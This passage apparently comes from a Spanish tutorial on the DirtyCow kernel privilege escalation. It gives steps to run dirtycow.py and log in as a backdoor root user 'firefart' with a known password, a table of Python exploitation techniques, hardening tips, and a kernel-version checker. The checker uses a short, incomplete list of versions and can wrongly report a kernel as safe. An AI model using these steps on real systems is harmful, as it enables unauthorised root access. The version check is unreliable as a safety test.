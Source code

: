 ```bash
python3 dirtycow.py
```

##### Paso 3: Inicia sesión con:

```bash
su firefart
# Contraseña: dirtyCowFun
```

✅ ¡Ahora estás como root!

---

### 🧠 ¿Cómo protegerse?

- Mantener el kernel actualizado
- Deshabilitar módulos innecesarios
- Aplicar parches de seguridad (usando `apt update && apt upgrade`)
- Supervisar accesos y permisos

---

### 📦 Python útil en explotación:

| Tarea                      | Cómo lo hace Python                        |
| -------------------------- | ------------------------------------------ |
| Ejecutar payloads          | `os.system()` o `subprocess.getoutput()`   |
| Leer versiones del sistema | `os.uname()`, `platform`, `subprocess`     |
| Automatizar exploits       | Descargar, compilar y ejecutar con código  |
| Cargar código en memoria   | Usar `ctypes`, `mmap` (técnicas avanzadas) |

---

### 🎬 Mini-script para identificar kernel vulnerable

```python
import platform

def check_kernel():
    kernel = platform.uname().release
    print(f"Versión del kernel: {kernel}")

    vulnerable_versions = ["4.4.0-21", "4.4.0-62", "4.8.0-41"]
    if kernel in vulnerable_versions:
        print("⚠️ Este kernel puede ser vulnerable.")
    else:
        print("✔️ Este kernel parece seguro (o desconocido).")

check_kernel()
```

---